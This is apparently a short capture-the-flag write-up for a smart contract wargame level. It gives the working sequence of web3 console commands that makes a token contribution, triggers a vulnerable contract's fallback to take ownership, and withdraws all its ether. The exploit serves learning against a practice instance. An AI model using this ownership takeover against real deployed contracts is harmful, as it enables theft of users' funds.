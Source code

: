 # Level 1

The goal of this level is to trigger the get all the ether stored in the contract. In order to do this you need to become the contract owner. In order to become the owner you must trigger the fallback method. The fallback method has a requirement that whoever calls it needs to have some contributions already in the contract and also have just contributions during the triggering of the fallback.


```
await contract.contribute({value: web3.toWei(0.0001, "ether")})
await contract.owner() //see who current owner is
web3.eth.sendTransaction({from:player, to:instance, value:web3.toWei(0.0001, "ether"), data: web3.sha3("foobar()").slice(0,10)}, x => console.log(x)) //Called non-existing function (outside of ABI with ETH)
await contract.owner() //confirm you are owner
player //address should match above
await contract.withdraw() // done

```
Done, now you just need to submit the instance.